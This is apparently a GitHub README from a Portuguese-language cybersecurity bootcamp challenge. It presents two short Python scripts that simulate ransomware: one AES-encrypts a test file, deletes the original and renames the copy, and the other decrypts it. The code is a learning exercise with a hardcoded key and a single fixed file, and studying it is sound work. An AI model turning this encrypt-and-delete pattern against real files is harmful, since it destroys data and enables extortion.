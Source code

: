 # Desafio-ransomware-simulation
Concluí um desafio técnico no bootcamp de Cibersegurança 2 da DIO, onde simulei o comportamento de um ransomware, incluindo a criptografia e descriptografia de arquivos utilizando Python e AES. O objetivo foi entender como funcionam os ataques de ransomware, além de praticar habilidades de criptografia.

import os
import pyaes

file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

os.remove(file_name)

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

crypto_data = aes.encrypt(file_data)

new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()
import os
import pyaes

file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
![image](https://github.com/user-attachments/assets/bc3acf1f-0c9b-440b-b3b7-207c00ff6bff)
